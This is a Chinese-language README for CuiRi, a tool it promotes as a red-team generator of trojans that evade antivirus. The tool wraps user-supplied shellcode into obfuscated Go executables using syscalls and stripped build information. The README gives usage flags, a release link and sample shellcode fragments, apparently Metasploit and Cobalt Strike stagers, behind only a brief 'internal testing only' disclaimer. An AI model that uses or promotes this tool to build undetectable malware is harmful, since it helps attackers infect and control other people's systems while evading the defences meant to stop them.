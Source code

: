 ### 0x01 简介：

```
   ____   __    __    _____      ______      _____  
  / ___)  ) )  ( (   (_   _)    (   __ \    (_   _) 
 / /     ( (    ) )    | |       ) (__) )     | |   
( (       ) )  ( (     | |      (    __/      | |   
( (      ( (    ) )    | |       ) \ \  _     | |   
 \ \___   ) \__/ (    _| |__    ( ( \ \_))   _| |__ 
  \____)  \______/   /_____(     )_) \__/   /_____( 

摧日：一款红队专用免杀木马生成器，基于shellcode生成绕过所有杀软的木马
```

CuiRi 是一款红队专用免杀木马生成器，该工具可以通过红队人员提供的一段 shellcode 快速生成一个绕过所有杀软的可执行木马。

**特点**

* 1.基于 Syscall 进行免杀，且随机混淆，可过几乎所有杀软
* 2.内置 go-strip 对 Go 生成的木马进行编译信息抹除与程序信息混淆
* 3.工具本体只有 1 个 exe，搭配 Go 环境即可直接使用

感谢 go-strip 作者 [@boy-hack](https://github.com/boy-hack "@boy-hack")

### 0x02 使用：

从 [release](https://github.com/NyDubh3/CuiRi/releases/tag/v1.0 "release") 中下载二进制文件，并且在系统上安装 Go 语言环境，然后将 shellcode 保存到1个txt文件中，即可使用本工具生成免杀马。

```shell
   ____   __    __    _____      ______      _____
  / ___)  ) )  ( (   (_   _)    (   __ \    (_   _)
 / /     ( (    ) )    | |       ) (__) )     | |
( (       ) )  ( (     | |      (    __/      | |
( (      ( (    ) )    | |       ) \ \  _     | |
 \ \___   ) \__/ (    _| |__    ( ( \ \_))   _| |__
  \____)  \______/   /_____(     )_) \__/   /_____(

摧日：一款红队专用免杀木马生成器，基于shellcode生成绕过所有杀软的木马

警告：
1.本工具仅用于企业内部测试，请勿用于任何非法犯罪活动，否则后果自负
2.本工具需要Go语言环境，且使用时需要关闭杀软
https://github.com/NyDubh3/CuiRi   Author:Dubh3

[INFO] Current Version: 1.0
Usage of CuiRi.exe:
  -f string
        通过shellcode生成免杀马
  -manual
        查看shellcode生成方法
```

CuiRi 支持的 shellcode 格式分为以下两种：

**1.C语言字符串格式 shellcode：**

```shell
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
"\x48\x31\xd2\x51\x65\x48\x8b\x52\x60\x56\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
```

**2.纯十六进制数值格式 shellcode:**

注意：如果是从 Cobalt Strike 中生成的 bin 文件，请单独将 bin 里的十六进制复制保存到一个 txt 文件中。

```shell
fce8 8900 0000 6089 e531 d264 8b52 308b
520c 8b52 148b 7228 0fb7 4a26 31ff 31c0
ac3c 617c 022c 20c1 cf0d 01c7 e2f0 5257
8b52 108b 423c 01d0 8b40 7885 c074 4a01
d050 8b48 188b 5820 01d3 e33c 498b 348b
01d6 31ff 31c0 acc1 cf0d 01c7 38e0 75f4
037d f83b 7d24 75e2 588b 5824 01d3 668b

```

https://mp.weixin.qq.com/s/m4I_YDn98K_A2yGAhv67Gg

https://wiki.wgpsec.org/knowledge/hw/2020-defend-tips.html
